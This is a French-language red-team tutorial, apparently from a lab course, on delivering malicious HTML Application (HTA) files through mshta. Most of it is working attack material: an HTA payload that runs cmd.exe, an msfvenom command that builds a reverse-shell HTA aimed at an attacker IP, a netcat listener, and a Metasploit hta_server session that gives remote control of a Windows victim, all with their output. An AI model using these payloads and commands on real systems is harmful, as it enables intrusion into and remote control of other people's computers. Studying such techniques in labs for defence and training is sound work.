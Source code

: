 Une application HTML ( HTA )
============================

HTA signifie "Application HTML". Il vous permet de créer un fichier téléchargeable contenant toutes les informations concernant son affichage et son rendu. Applications HTML, également appelées HTA, qui sont  des pages HTML dynamiques contenant JScript et VBScript. L'outil LOLBINS (Living-of-the-land Binaries)  mshta est utilisé pour exécuter des fichiers HTA . Il peut être exécuté seul ou automatiquement depuis Internet Explorer.   

Dans l'exemple suivant, nous utiliserons un  [ActiveXObject](https://en.wikipedia.org/wiki/ActiveX) dans notre charge utile comme preuve de concept pour exécuter  cmd.exe . Considérez le code HTML suivant. 

```
<html>
<body>
<script>
	var c= 'cmd.exe'
	new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>

```

Ensuite, servez le  payload.hta à partir d'un serveur Web, cela pourrait être fait à partir de la machine attaquante comme suit, 

Terminal

```
user@machine$ python3 -m http.server 8090
Serving HTTP on 0.0.0.0 port 8090 (http://0.0.0.0:8090/)
```

Sur la machine victime, visitez le lien malveillant à l'aide de Microsoft Edge,  http://10.8.232.37:8090/payload.hta . Notez que  10.8.232.37  est l'adresse IP de l'AttackBox.

![f3a719e8137e6fdca683eefbf373ea4f](https://github.com/dsgsec/Red-Team/assets/82456829/93db68ed-e85f-48a0-9a89-3aafb3290086)

Une fois que nous appuyons sur  Run ,  le  payload.hta  est exécuté , puis il invoquera le  cmd.exe . La figure suivante montre que nous avons exécuté avec succès  cmd.exe .

![07c5180cd36650478806a1bf3d4595f2](https://github.com/dsgsec/Red-Team/assets/82456829/a6d2d736-02bc-4187-b1fa-fb7571502f68)

Connexion inversée HTA

Nous pouvons créer une charge utile de shell inversé comme suit,

Terminal

```
user@machine$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.232.37 LPORT=443 -f hta-psh -o thm.hta
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of hta-psh file: 7692 bytes
Saved as: thm.hta
```

Nous utilisons le  msfvenom du  framework Metasploit pour générer une charge utile malveillante pour se reconnecter à la machine attaquante. Nous avons utilisé la charge utile suivante pour connecter le  windows/x64/shell_reverse_tcp à notre adresse IP et à notre port d'écoute.   

Sur la machine attaquante, nous devons écouter le port  443 en utilisant  nc . Veuillez noter que ce port nécessite des privilèges root pour s'ouvrir, ou vous pouvez en utiliser différents. 

Une fois que la victime a visité l'URL malveillante et que les hits ont été exécutés, nous rétablissons la connexion.

Terminal

```
user@machine$ sudo nc -lvp 443
listening on [any] 443 ...
10.8.232.37: inverse host lookup failed: Unknown host
connect to [10.8.232.37] from (UNKNOWN) [10.10.201.254] 52910
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\thm\AppData\Local\Packages\Microsoft.MicrosoftEdge_8wekyb3d8bbwe\TempState\Downloads>
pState\Downloads>ipconfig
ipconfig

Windows IP Configuration

Ethernet adapter Ethernet 4:

   Connection-specific DNS Suffix  . : eu-west-1.compute.internal
   Link-local IPv6 Address . . . . . : fe80::fce4:699e:b440:7ff3%2
   IPv4 Address. . . . . . . . . . . : 10.10.201.254
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Default Gateway . . . . . . . . . : 10.10.0.1
```

HTA malveillant via Metasploit 

Il existe un autre moyen de générer et de diffuser des fichiers HTA malveillants à l'aide du framework Metasploit. Tout d'abord, exécutez le framework Metasploit à l'aide  de la commande msfconsole -q  . Sous la section exploit, il y a  exploit/windows/misc/hta_server,  qui nécessite de sélectionner et de définir des informations telles que  LHOST ,  LPORT ,  SRVHOST ,  Payload  et enfin, d'exécuter  exploit pour exécuter le module. 

Terminal

```
msf6 > use exploit/windows/misc/hta_server
msf6 exploit(windows/misc/hta_server) > set LHOST 10.8.232.37
LHOST => 10.8.232.37
msf6 exploit(windows/misc/hta_server) > set LPORT 443
LPORT => 443
msf6 exploit(windows/misc/hta_server) > set SRVHOST 10.8.232.37
SRVHOST => 10.8.232.37
msf6 exploit(windows/misc/hta_server) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(windows/misc/hta_server) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf6 exploit(windows/misc/hta_server) >
[*] Started reverse TCP handler on 10.8.232.37:443
[*] Using URL: http://10.8.232.37:8080/TkWV9zkd.hta
[*] Server started.

```

Sur la machine victime, une fois que nous avons visité le fichier HTA malveillant fourni sous forme d'URL par Metasploit, nous devrions recevoir une connexion inversée.

Terminal

```
user@machine$ [*] 10.10.201.254    hta_server - Delivering Payload
[*] Sending stage (175174 bytes) to 10.10.201.254
[*] Meterpreter session 1 opened (10.8.232.37:443 -> 10.10.201.254:61629) at 2021-11-16 06:15:46 -0600
msf6 exploit(windows/misc/hta_server) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : DESKTOP-1AU6NT4
OS              : Windows 10 (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 3
Meterpreter     : x86/windows
meterpreter > shell
Process 4124 created.
Channel 1 created.
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\app>
```
